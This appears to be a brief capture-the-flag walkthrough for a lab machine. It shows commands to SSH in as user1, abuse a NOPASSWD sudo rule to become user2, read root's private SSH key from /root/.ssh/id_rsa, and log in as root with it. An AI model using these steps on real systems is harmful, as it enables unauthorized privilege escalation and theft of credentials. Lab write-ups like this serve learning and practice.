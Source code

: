 ```ssh
ssh user1@<IP> -p <PORT>
```
### SSH user1
```shell
sudo -l
```
`(user2 : user2) NOPASSWD: /bin/bash`
### Switch to user2
```bash
sudo -u user2 /bin/bash
```
### Copy id_rsa
```bash
cat /root/.ssh/id_rsa
```
### Main Terminal
```bash
vim id_rsa
chmod 600 id_rsa
ssh root@<IP> -p<PORT> -i id_rsa
```

